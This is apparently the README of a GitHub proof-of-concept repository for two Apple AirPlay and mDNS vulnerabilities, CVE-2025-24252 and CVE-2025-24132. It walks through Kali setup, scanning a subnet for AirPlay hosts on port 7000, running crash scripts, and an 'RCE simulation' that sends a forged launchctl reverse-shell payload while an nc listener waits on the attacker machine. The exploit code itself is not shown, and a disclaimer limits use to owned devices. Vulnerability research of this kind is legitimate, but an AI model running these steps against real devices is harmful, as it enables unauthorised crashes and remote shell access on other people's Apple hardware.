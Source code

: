 # AIRBORNE – 2-PoCs-1-Repository

PoCs for **CVE-2025-24252** and **CVE-2025-24132**  

Discovered and detailed by Oligo Security

https://www.oligo.security/blog/airborne

Both bugs live in Apple’s parsing of network data—specifically in Bonjour/mDNS and AirPlay’s TCP pairing flow.

---

## CVE-2025-24252 – mDNS TXT Record Crash Trigger

This vulnerability affects `AirPlayReceiver` and is triggered via malformed mDNS TXT records.

### Setup on Kali Linux

```bash
sudo apt update
sudo apt install python3-scapy avahi-daemon -y
sudo systemctl start avahi-daemon
```

### Clone the Repo

```bash
git clone https://github.com/ekomsSavior/AirBorne-PoC.git
cd AirBorne-PoC
```

### Configure the PoC

```bash
nano crashtest_CVE-2025-24252.py
```

Set your attacker IP and interface. Then save and exit (`CTRL+X`, then `Y`, then `ENTER`).

### Run the PoC

```bash
python3 crashtest_CVE-2025-24252.py
```

### Monitor Target Behavior

Use `tcpdump` or Wireshark to capture traffic on the Apple device’s IP.

> Only test this on your own Apple devices in a safe lab setting.

---

## CVE-2025-24132 – AirPlay Pairing Heap Overflow

This bug is in the `AirPlayScreen` component and can trigger a heap overflow by sending malformed pairing/init packets over TCP port 7000.

---

### Scan for Vulnerable AirPlay Hosts

```bash
nmap -p 7000 --open --script=banner <your-local-subnet>/24
```

---

### Crash PoC: TCP Malformed Packet

A low-level socket-based fuzzing PoC that can be expanded into an RCE trigger.

Edit the script

```bash
nano PoC_CVE-2025-24132.py
```

Set your target IP. Then run

```bash
python3 PoC_CVE-2025-24132.py
```

Watch for
- System reboots
- Pairing process freezes
- AirPlay UI or app crashes

If observed, a heap overflow condition is likely confirmed.

---

## From Crash to Code Execution – CVE-2025-24132 RCE Simulation

### Overview

Trigger CVE-2025-24132 to simulate executing a reverse shell or `launchctl` job on a vulnerable or jailbroken Apple device.

Steps
- Overflow heap cleanly
- Inject shell command or plist-based job
- Trigger reverse shell or persistent execution

### What We Know

- AirPlay runs on TCP port `7000`
- `pairing-init` POST requests are vulnerable when oversized
- The protocol may accept binary plist payloads or plain XML

---

### Run the RCE Simulation Script

```bash
nano CVE-2025-24132_RCE.py
```

Set your
- `target_ip` (your Apple device)
- `attacker_ip` (your Kali machine)

Start your listener

```bash
nc -lvnp 4444
```

Then launch the PoC

```bash
python3 CVE-2025-24132_RCE.py
```

This sends a forged `launchctl` payload with a reverse shell string. Works only if the device is jailbroken or unpatched.

---

## DISCLAIMER

This project is for **educational and research purposes only**.

USER ASSUMES FULL RESPONSIBILITY WHEN UTILIZING THIS TOOL.  
**Only test on networks and devices you own or have explicit permission to test on.**

Unauthorized use may violate laws or terms of service.  
Use responsibly and ethically.
